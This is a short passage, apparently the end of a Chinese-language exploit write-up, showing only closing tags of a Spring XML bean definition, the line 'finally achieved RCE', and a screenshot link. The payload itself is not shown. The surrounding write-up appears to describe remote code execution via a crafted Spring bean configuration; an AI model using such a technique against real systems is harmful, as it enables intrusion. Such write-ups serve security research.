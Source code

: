 ```bash
            </constructor-arg>
        </bean>
    </beans>
```

最后成功 RCE

[![](assets/1701606889-784816bd72c8c1c251a9dca5e3b4c0f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026172608-b208aeba-73e1-1.png)
